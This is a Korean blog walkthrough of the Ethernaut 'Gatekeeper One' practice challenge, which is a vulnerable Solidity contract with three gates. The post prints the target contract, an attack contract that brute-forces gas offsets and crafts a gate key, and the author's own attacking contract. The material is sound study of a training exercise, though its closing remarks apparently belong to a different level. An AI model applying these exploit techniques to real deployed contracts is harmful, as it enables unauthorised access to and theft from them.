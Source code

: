 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 13) Gatekeeper One 
date: '2022-01-17 11:53:00'
author: 한성원
tags: ethernaut GatekeeperOne vulnerability
categories: 취약점분석
---
```



# 👋 Gatekeeper One
__Difficulty 5/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

이번 포스트는 특별하게 2편으로 나누어 진행한다. 
이번편은 gate1과 gate2를 다룰 예정이다.
- - -

## 승리 조건
- Gatekeeper을 지나 entrant로 등록하기

- - -

## 코드 분석
GatekeeperOne contract에서스 3개의 gate가 존재한다. gate는 모두 modifier로 되어있다. 즉 3개의 modifier의 조건을 만족시키면 된다.   
분석은 주석에!

```solidity
contract GatekeeperOne {

    using SafeMath for uint256;
    address public entrant;

    // msg.sender과 tx.origin이 다르면 진행
    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    // gasleft()의 8191의 배수이면 진행
    modifier gateTwo() {
        require(gasleft().mod(8191) == 0);
        _;
    }

    // _gateKey가 type casting관련 3가지 조건에 만족하면 진행
    modifier gateThree(bytes8 _gateKey) { 
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    // modifier를 포함한 함수: 이 함수를 통해 내가 entrant가 될 수 있다.
    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}

```
- - -


## 풀이
이 문제에서 우리의 목표는 3개의 gate를 무사히 지나 entrant로 등록하는 것이다. 우선 gate1은 이전에 풀었던 Telephone과 유사했다. 아래의 조건은 우리가 가지고 그냥 내가 직접 transaction을 보내지 않고 다른 contract를 만들어 사용하면 된다. gate1은 쉽게 풀렸다.

```solidity
require(tx.origin != msg.sender)
```
<br/>

그렇다면 gate2번은 어떻게 pass할 수 있을까? 아래의 코드에서 중요한 점은 gasleft이다. [gasleft()](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html)는 gasleft()가 실행되는 당시의 gas가 얼마나 남았는지 return해주는 함수이다. 그렇다면 어떻게 그 당시 남은 gas를 8191의 배수로 만들 수 있을까?

```solidity
modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
}
```
<br/>

이 문제를 완벽히 이해하고 풀기까지 이틀정도 소요된 것 같다ㅜ 

gas 관련 부분에 대한 나의 지식이 부족했던지라 구글을 사용해서 답을 찾아서 이해하는 식으로 진행했다. 

우리는 여기서 reqire문이 실행될때 남은 gas가 8191의 배수가 되게 해야한다. Openzeppline에서 찾은 답은 아래와 같았다. 2번째 gate를 풀기 위해 될때까지 보내는 식인 것 같다. 공부를 마친 후 지금에서 보면 어느정도 이해가 된다. 하지만 내가 문제를 풀 당시에는 아래 코드를 제대로 이해하지 못해 내가 이해할 수 있는 방법으로 문제를 풀었다.

```solidity
contract GatekeeperOneAttack {

  constructor(address GatekeeperOneContractAddress) public {
    bytes8 key = bytes8(uint64(uint16(tx.origin)) + 2 ** 32);
    
    // NOTE: the proper gas offset to use will vary depending on the compiler
    // version and optimization settings used to deploy the factory contract.
    // To migitage, brute-force a range of possible values of gas to forward.
    // Using call (vs. an abstract interface) prevents reverts from propagating.
    bytes memory encodedParams = abi.encodeWithSignature(("enter(bytes8)"),
      key
    );

    // gas offset usually comes in around 210, give a buffer of 60 on each side
    for (uint256 i = 0; i < 120; i++) {
      (bool result, ) = address(GatekeeperOneContractAddress).call{gas: i + 150 + 8191 * 3}(encodedParams);
      if(result)
        {
        break;
      }
    }
  }
}
```
<br/>

나는 gate2를 풀때 require문에서 계산되는 시기에 남은 gas의 값을 정확하게 얻어내는 방식으로 진행했다. 여기에서는 remix의 dubugger를 통해 opcode와 그에 대한 정보를 사용했다. 우선 내가 만든 contract는 이랬다.

```solidity
contract GetEntrant {
    
    GatekeeperOne gatekeeperOne;

    constructor(address _gatekeeperOne) public {
        gatekeeperOne = GatekeeperOne(_gatekeeperOne);
    }
    
    function enter(bytes8 _gateKey) public {
        //254 gas는 내가 debug를 통해 계산했다.
        gatekeeperOne.enter{gas: 8191*5+254}(_gateKey);
    }
  
}
```






https://medium.com/coinmonks/solidity-variables-storage-type-conversions-and-accessing-private-variables-c59b4484c183

이후 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```

- - -

## 마무리
블록체인상의 정보는 모두에게 공개된다. 모든 사람이 storage를 쉽게 확인 할 수 있기 때문이다. 민감한 정보들은 블록체인에 올리지 않는 것이 좋다. 또한 변수 선언 순서에 따라 때로는 더 많은 비용를 지불해야 할 수도 있기 때문에 코드를 적을때 항상 최적화에 대해 생각하며 하자!! 


- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- Ethernaut 8 Vault: https://holyhansss.github.io/ethernaut/8_vault_ethernaut/8_vault_ethernaut/
- Storage & Casting: https://medium.com/coinmonks/solidity-variables-storage-type-conversions-and-accessing-private-variables-c59b4484c183
- Privacy 취약점: https://holyhansss.github.io/vulnerability/private_variable/private_variable/
```toc

```